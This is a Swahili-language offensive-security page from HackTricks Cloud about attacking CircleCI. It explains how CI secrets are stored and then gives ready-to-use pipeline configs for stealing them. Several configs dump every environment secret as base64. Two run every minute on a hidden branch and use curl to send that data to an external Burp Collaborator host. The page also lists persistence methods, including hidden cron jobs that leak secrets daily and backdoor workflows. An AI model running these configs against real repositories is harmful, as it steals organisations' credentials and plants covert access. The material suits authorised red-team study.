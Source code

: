 # Usalama wa CircleCI

<details>

{% hint style="success" %}
Jifunze & zoezi la AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi la GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Taarifa za Msingi

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) ni jukwaa la Utekelezaji wa Kiotomatiki ambapo unaweza **kuweka mifano** inayoonyesha unachotaka ifanye na baadhi ya nambari na wakati wa kufanya hivyo. Kwa njia hii unaweza **kutia mtihani kiotomatiki** au **kutekeleza** moja kwa moja **kutoka tawi kuu la repo yako** kwa mfano.

## Ruhusa

**CircleCI** **inaurithi ruhusa** kutoka github na bitbucket inayohusiana na **akaunti** inayoingia.\
Katika majaribio yangu niligundua kwamba muda mrefu kama una **ruhusa ya kuandika kwenye repo kwenye github**, utaweza **kusimamia mipangilio ya mradi wake katika CircleCI** (weka funguo mpya za ssh, pata funguo za api za mradi, tengeneza matawi mapya na mipangilio mipya ya CircleCI...).

Hata hivyo, unahitaji kuwa **msimamizi wa repo** ili **ubadilishe repo kuwa mradi wa CircleCI**.

## Mazingira ya Mfumo & Siri

Kulingana na [**nyaraka**](https://circleci.com/docs/2.0/env-vars/) kuna njia tofauti za **kupakia thamani kwenye mazingira ya mfumo** ndani ya mchakato.

### Mazingira ya mfumo yaliyojengwa

Kila chombo kinachotumika na CircleCI kitakuwa na [**mazingira maalum ya mfumo yaliyoorodheshwa kwenye nyaraka**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) kama vile `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` au `CIRCLE_USERNAME`.

### Nakala wazi

Unaweza kuyatangaza kwa wazi ndani ya **amri**:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Unaweza kuzitangaza kwa maandishi wazi ndani ya **mazingira ya kukimbia**:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Unaweza kuzitangaza kwa maandishi wazi ndani ya **mazingira ya kazi ya ujenzi**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Unaweza kuzitangaza kwa maandishi wazi ndani ya **mazingira ya kontena**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Siri za Mradi

Hizi ni **siri** ambazo zitapatikana tu na **mradi** (na **tawi lolote**).\
Unaweza kuziona zimetajwa katika _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
Kazi ya "**Kuagiza Vipimo**" inaruhusu **kuagiza vipimo kutoka miradi mingine** hadi hii.
{% endhint %}

### Siri za Muktadha

Hizi ni siri ambazo ni **kwa kampuni nzima**. Kwa **kawaida repo yoyote** itaweza **kupata siri yoyote** iliyohifadhiwa hapa:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Hata hivyo, kumbuka kwamba kikundi tofauti (badala ya Wajumbe Wote) kinaweza **kuchaguliwa ili kumpa ufikivu wa siri kwa watu maalum**.\
Hii kwa sasa ni njia moja bora ya **kuongeza usalama wa siri**, kuzuia kila mtu kupata lakini ni baadhi ya watu tu.
{% endhint %}

## Mashambulizi

### Tafuta Siri za Nakala Wazi

Ikiwa una **ufikivu wa VCS** (kama github) angalia faili `.circleci/config.yml` ya **kila repo kwenye kila tawi** na **tafuta** siri za nakala wazi zilizohifadhiwa hapo.

### Vipimo vya Siri za Mazingira & Uchambuzi wa Muktadha

Kwa kuangalia nambari unaweza kupata **majina yote ya siri** ambayo yanatumika katika kila faili ya `.circleci/config.yml`. Unaweza pia kupata **majina ya muktadha** kutoka faili hizo au kuzichunguza kwenye konsoli ya wavuti: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### Exfiltrate Siri za Mradi

{% hint style="warning" %}
Ili **kuchukua NAKALA** zote za mradi na muktadha **SIRI** unahitaji tu kuwa na ufikivu wa **KUANDIKA** kwa **repo 1 tu** katika kampuni nzima ya github (_na akaunti yako lazima iwe na ufikivu wa muktadha lakini kwa kawaida kila mtu anaweza kupata kila muktadha_).
{% endhint %}

{% hint style="danger" %}
Kazi ya "**Kuagiza Vipimo**" inaruhusu **kuagiza vipimo kutoka miradi mingine** hadi hii. Hivyo, mshambuliaji anaweza **kuagiza vipimo vyote vya mradi kutoka kwenye repos zote** na kisha **kuchukua yote pamoja**.
{% endhint %}

Siri zote za mradi daima hutiwa katika mazingira ya kazi, hivyo tu kuita mazingira na kuficha katika base64 itachukua siri katika **konsoli ya wavuti ya rekodi za kazi**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Ikiwa **huna ufikiaji wa konsoli ya wavuti** lakini una **ufikiaji wa repo** na unajua kwamba CircleCI inatumika, unaweza tu **kuunda mchakato** ambao **unaanzishwa kila dakika** na **kutuma siri kwenda kwenye anwani ya nje**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Toa Siri za Muktadha

Unahitaji **kuainisha jina la muktadha** (hii pia itatoa siri za mradi):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Ikiwa **huna ufikiaji wa konsoli ya wavuti** lakini una **ufikiaji wa repo** na unajua kuwa CircleCI inatumika, unaweza tu **kurekebisha mchakato** ambao **unaanzishwa kila dakika** na **kutoa siri kwenda anwani ya nje**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Kuunda `.circleci/config.yml` mpya katika repo **haitoshi kusababisha ujenzi wa circleci**. Unahitaji **kuwezesha kama mradi katika konsoli ya circleci**.
{% endhint %}

### Kutoroka Kwenda Kwenye Cloud

**CircleCI** inakupa chaguo la kukimbia **ujenzi wako kwenye mashine zao au kwenye zako**.\
Kwa chaguo-msingi, mashine zao zinapatikana kwenye GCP, na mwanzoni hutaweza kupata kitu chochote kinachofaa. Walakini, ikiwa muathiriwa anatekeleza kazi kwenye **mashine zao (kwa uwezekano, kwenye mazingira ya wingu)**, unaweza kupata **kituo cha metadata cha wingu chenye habari muhimu**.

Tambua kwamba katika mifano iliyopita kila kitu kilizinduliwa ndani ya chombo cha docker, lakini pia unaweza **kuomba kuzindua mashine ya VM** (ambayo inaweza kuwa na ruhusa tofauti za wingu):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
Au hata kontena ya docker yenye ufikivu wa huduma ya docker ya mbali:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Uthabiti

* Inawezekana **kuunda** **vitambulisho vya mtumiaji kwenye CircleCI** ili kupata ufikiaji wa vituo vya API na ufikiaji wa watumiaji.
* _https://app.circleci.com/settings/user/tokens_
* Inawezekana **kuunda vitambulisho vya miradi** ili kupata mradi na ruhusa zilizotolewa kwa kitambulisho.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* Inawezekana **kuongeza funguo za SSH** kwenye miradi.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* Inawezekana **kuunda kazi ya cron kwenye tawi lililofichwa** kwenye mradi usiotarajiwa ambao unatoa **mazingira ya siri** ya mazingira kila siku.
* Au hata kuunda kazi kwenye tawi/ kurekebisha kazi inayojulikana ambayo itatoa **mazingira ya siri** ya mazingira na miradi kila siku.
* Ikiwa wewe ni mmiliki wa github unaweza **kuruhusu mizunguko isiyothibitishwa** na kuiwezesha kwenye kazi kama **mlango wa nyuma**
* Unaweza kupata **udhaifu wa kuingiza amri** katika kazi fulani na **kuingiza amri** kupitia **siri** kwa kubadilisha thamani yake

<details>

{% hint style="success" %}
Jifunze & zoezi Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
